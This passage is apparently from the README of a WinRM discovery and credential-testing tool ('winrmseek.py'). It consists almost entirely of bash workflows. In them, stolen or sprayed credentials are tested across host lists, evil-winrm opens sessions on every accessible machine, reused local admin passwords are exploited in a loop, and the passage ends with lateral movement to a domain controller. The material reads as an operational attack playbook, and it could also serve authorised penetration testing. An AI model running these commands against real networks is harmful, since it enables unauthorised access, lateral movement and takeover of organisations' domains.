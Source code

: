 ### Workflow 2: Credential Testing
```bash
# 1. Got credentials from another attack (e.g., Responder, password spraying)
# Username: CORP\admin
# Password: Winter2024!

# 2. Test which hosts accept these credentials
./winrmseek.py -f domain_computers.txt -t -u "CORP\admin" -p "Winter2024!"

# 3. Access found hosts
cat winrm_access.txt

# 4. Connect to compromised hosts
evil-winrm -i 192.168.1.10 -u admin -p "Winter2024!"
```

### Workflow 3: Post-Exploitation Pivot
```bash
# 1. Compromised one host, want to find other WinRM-enabled targets
./winrmseek.py -f internal_network.txt

# 2. Test reused local admin password
./winrmseek.py -f winrmlist.txt -t -u administrator -p "LocalAdmin123"

# 3. Access all vulnerable hosts
for ip in $(grep "Access Found" winrm_access.txt | cut -d: -f1); do
    evil-winrm -i $ip -u administrator -p "LocalAdmin123"
done
```

### Workflow 4: Domain Compromise
```bash
# 1. Got Domain Admin credentials
./winrmseek.py -f all_servers.txt -t -u "CORP\Domain Admins" -p "P@ssw0rd"

# 2. All domain-joined servers should accept creds
# Review successful authentications
cat winrm_access.txt

# 3. Lateral movement to high-value targets
evil-winrm -i dc01.corp.local -u "Domain Admins" -p "P@ssw0rd"
```

## Integration with Other Tools

### With evil-winrm
```bash
# 1. Discover targets
./winrmseek.py -f network.txt > discovered.txt

# 2. Test credentials
./winrmseek.py -f discovered.txt -t -u user -p pass

# 3. Connect to accessible hosts
evil-winrm -i TARGET_IP -u USER -p PASS

# 4. Run commands
evil-winrm -i TARGET_IP -u USER -p PASS -e "whoami /all"
```
